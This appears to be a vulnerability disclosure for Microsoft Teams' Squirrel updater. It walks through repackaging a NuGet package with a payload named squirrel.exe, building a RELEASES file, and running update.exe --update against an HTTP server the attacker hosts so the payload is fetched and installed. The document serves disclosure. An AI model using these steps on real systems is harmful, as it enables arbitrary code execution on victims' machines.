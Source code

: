 https://medium.com/@reegun/nuget-squirrel-uncontrolled-endpoints-leads-to-arbitrary-code-execution-80c9df51cf12

Steps to Reproduce:

1. Exploit reproduce:

Step 1: Get any Nuget package, i used Teams application for example. "TeamsForWindows-1.5.50-full.nupkg"
Step 2: Extract the package using 7zip and delete the main file to avoid confusion.
Step 3: Go to /TeamsForWindows-1.5.50-full/lib/net45/ remove all the files and place your payload named "squirrel.exe".
Step 4: go to home directory "TeamsForWindows-1.5.50-full" select all the files and zip under name "TeamsForWindows-1.5.50-full.nupkg"
Step 5: We need to create metadata for the the file TeamsForWindows-1.5.50-full.nupkg, like sha1, filesize
Step 6: Enter the below command in KALI or any linux distros.
        sha1sum TeamsForWindows-1.5.50-full.nupkg && wc -c < TeamsForWindows-1.5.50-full.nupkg
        Output : fa8b87f0b995498a6e890c832dcaf968997608d4 TeamsForWindows-1.5.50-full.nupkg 46951
Step 7: create a file named RELEASES and copy the above output and save.
Step 8: So the main directory contains 2 file TeamsForWindows-1.5.50-full.nupkg and RELEASES.
Step 9: upload to any http server.

2. Attack reproduce:

Step 1: Our target is Microsoft Teams application, So once installed go to "%localappdata%\microsoft\teams\"
Step 2: Run the below command,
            update.exe --update=[http server contains the above 2 files]
        E.g update.exe --update=http://192.168.198.135/
        
Now the update command will download the malicious package and install automatically.


